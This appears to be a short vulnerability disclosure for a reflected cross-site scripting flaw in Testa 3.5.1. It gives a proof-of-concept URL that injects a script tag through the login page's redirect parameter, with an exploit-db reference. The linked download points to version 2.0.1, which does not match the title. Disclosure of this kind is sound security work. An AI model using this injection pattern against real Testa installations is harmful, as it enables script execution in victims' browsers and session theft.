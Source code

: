 ## Testa-3.5.1 (Cross site scripting)
```diff

@@Testa 3.5.1 Online Test Management System (Cross Site Scripting)@@

+ Version: 3.5.1
- Tested on Linux/Windows
# POC (Piye om carane)
! https://localhost/login.php?redirect=%22%3E%3Cscript%3Ealert(%22evil.com%22)%3C/script%3E
```

## Software & Reference
###### [https://www.exploit-db.com/exploits/51023](https://www.exploit-db.com/exploits/51023)
###### [https://download.aftab.cc/products/testa/Testa_wos_2.0.1.zip](https://download.aftab.cc/products/testa/Testa_wos_2.0.1.zip)
###### [https://www.apachefriends.org/download.html](https://www.apachefriends.org/download.html)
